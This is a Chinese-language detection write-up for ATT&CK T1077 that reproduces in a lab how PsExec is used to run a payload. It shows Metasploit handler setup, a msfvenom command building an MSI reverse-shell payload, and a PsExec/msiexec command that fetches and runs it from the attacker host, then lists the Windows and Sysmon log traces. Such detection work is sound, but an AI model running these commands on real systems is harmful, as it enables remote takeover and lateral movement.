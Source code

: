 # T1077-win-基于白名单PsExec执行payload

## 来自ATT&CK的描述

Windows系统具有只能由管理员访问的隐藏网络共享，并提供远程文件复制和其他管理功能。例如网络共享包括`C$`，`ADMIN$`，和`IPC$`。攻击者可以将此技术与具有管理员权限级别的帐户结合使用，通过服务器消息块（SMB）远程访问联网系统，以便使用远程过程调用（RPC），传输文件。攻击者还可以使用NTLM哈希来访问具有Pass Hash和某些配置和补丁级别的系统上的管理员共享。

Windows使用SMB服务，允许通过端口445/tcp进行文件传输和打印机共享。它允许枚举，读取和写入远程计算机的文件共享目录。虽然Windows服务器大量使用它来用于合法用途，并且允许用户用于文件和打印机共享，但许多攻击者也可以使用SMB来实现[横向移动](https://attack.mitre.org/tactics/TA0008)。你需要密切地观察这一活动并感知到威胁的存在。由于SMB流量在许多环境中都非常重要，因此分析攻击者在内网中利用SMB进行横向移动的非法行为变得十分复杂。

## 测试案例

微软于2006年7月收购sysinternals公司，PsExec是SysinternalsSuite的小工具之一，是一种轻量级的telnet替代品，允许在其他系统上执行进程，完成控制台应用程序的完全交互，而无需手动安装客户端软件，并且可以获得与控制台应用程序相当的完全交互性。

微软官方文档：

<https://docs.microsoft.com/zh-cn/sysinternals/downloads/psexec>

说明：PsExec.exe没有默认安装在windows系统。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7（sysmon日志）

### 攻击分析

#### 配置MSF

```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > exploit
```

#### 生成payload

```bash
msfvenom -a  x86 --platform windows -p  windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=4444 -f msi > shellcode.msi
```

#### 靶机执行

注意：需要管理员权限

```dos
PsExec.exe -d -s msiexec.exe /q /i http://192.168.126.146/shellcode.msi
```

#### 反弹shell

```bash
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.126.146:4444
[*] Sending stage (180291 bytes) to 192.168.126.149
[*] Meterpreter session 1 opened (192.168.126.146:4444 -> 192.168.126.149:49371) at 2020-04-18 23:09:44 +0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getpid
Current pid: 2352
```

## 测试留痕

```log
windows 安全日志
EventID： 4688
进程信息:
新进程 ID: 0xe84
新进程名: C:\Users\12306Br0\Desktop\PSTools\PsExec.exe

EventID： 4688
进程信息:
新进程 ID: 0xfcc
新进程名: C:\Windows\PSEXESVC.exe

EVentID：5140
网络信息:
对象类型: File
源地址: fe80::719e:d312:648f:4884
源端口: 49369
共享信息:
共享名: \\*\IPC$

EventID：5145
网络信息:
对象类型: File
源地址: fe80::719e:d312:648f:4884
源端口: 49369

共享信息:
共享名称: \\*\IPC$
共享路径:
相对目标名称: PSEXESVC

SYSMON日志
EventID：1
Process Create:
RuleName:
UtcTime: 2020-04-18 15:09:29.237
ProcessGuid: {bb1f7c32-1829-5e9b-0000-00107a844001}
ProcessId: 3716
Image: C:\Users\12306Br0\Desktop\PSTools\PsExec.exe
FileVersion: 2.2
Description: Execute processes remotely
Product: Sysinternals PsExec
Company: Sysinternals - www.sysinternals.com
OriginalFileName: psexec.c
CommandLine: PsExec.exe  -d -s msiexec.exe /q /i http://192.168.126.146/shellcode.msi
CurrentDirectory: C:\Users\12306Br0\Desktop\PSTools\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-5fc3-5e99-0000-0020eae10600}
LogonId: 0x6e1ea
TerminalSessionId: 1
IntegrityLevel: High
Hashes: SHA1=E50D9E3BD91908E13A26B3E23EDEAF577FB3A095
ParentProcessGuid: {bb1f7c32-1806-5e9b-0000-001070474001}
ParentProcessId: 3492
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: "C:\Windows\System32\cmd.exe"

EventID：1
Process Create:
RuleName:
UtcTime: 2020-04-18 15:09:29.284
ProcessGuid: {bb1f7c32-1829-5e9b-0000-00108c864001}
ProcessId: 4044
Image: C:\Windows\PSEXESVC.exe
FileVersion: 2.2
Description: PsExec Service
Product: Sysinternals PsExec
Company: Sysinternals
OriginalFileName: psexesvc.exe
CommandLine: C:\Windows\PSEXESVC.exe
CurrentDirectory: C:\Windows\system32\
User: NT AUTHORITY\SYSTEM
LogonGuid: {bb1f7c32-a6a0-5e60-0000-0020e7030000}
LogonId: 0x3e7
TerminalSessionId: 0
IntegrityLevel: System
Hashes: SHA1=A17C21B909C56D93D978014E63FB06926EAEA8E7
ParentProcessGuid: {bb1f7c32-a6a0-5e60-0000-001025ae0000}
ParentProcessId: 496
ParentImage: C:\Windows\System32\services.exe
ParentCommandLine: C:\Windows\system32\services.exe

EventID：1
Process Create:
RuleName:
UtcTime: 2020-04-18 15:09:29.440
ProcessGuid: {bb1f7c32-1829-5e9b-0000-00103c894001}
ProcessId: 1916
Image: C:\Windows\System32\msiexec.exe
FileVersion: 5.0.7601.17514 (win7sp1_rtm.101119-1850)
Description: Windows® installer
Product: Windows Installer - Unicode
Company: Microsoft Corporation
OriginalFileName: msiexec.exe
CommandLine: "msiexec.exe" /q /i http://192.168.126.146/shellcode.msi
CurrentDirectory: C:\Windows\system32\
User: NT AUTHORITY\SYSTEM
LogonGuid: {bb1f7c32-a6a0-5e60-0000-0020e7030000}
LogonId: 0x3e7
TerminalSessionId: 0
IntegrityLevel: System
Hashes: SHA1=443AAC22D57EDD4EF893E2A245B356CBA5B2C2DD
ParentProcessGuid: {bb1f7c32-1829-5e9b-0000-00108c864001}
ParentProcessId: 4044
ParentImage: C:\Windows\PSEXESVC.exe
ParentCommandLine: C:\Windows\PSEXESVC.exe
```

由于sysmon配置问题，只对进程创建行为进行监控

## 检测规则/思路

无具体检测规则，可根据PsExec特征进行检测。

## 参考推荐

MITRE-ATT&CK-T1077

<https://attack.mitre.org/techniques/T1077/>

基于白名单PsExec执行payload

<https://blog.csdn.net/ws13129/article/details/89879771>

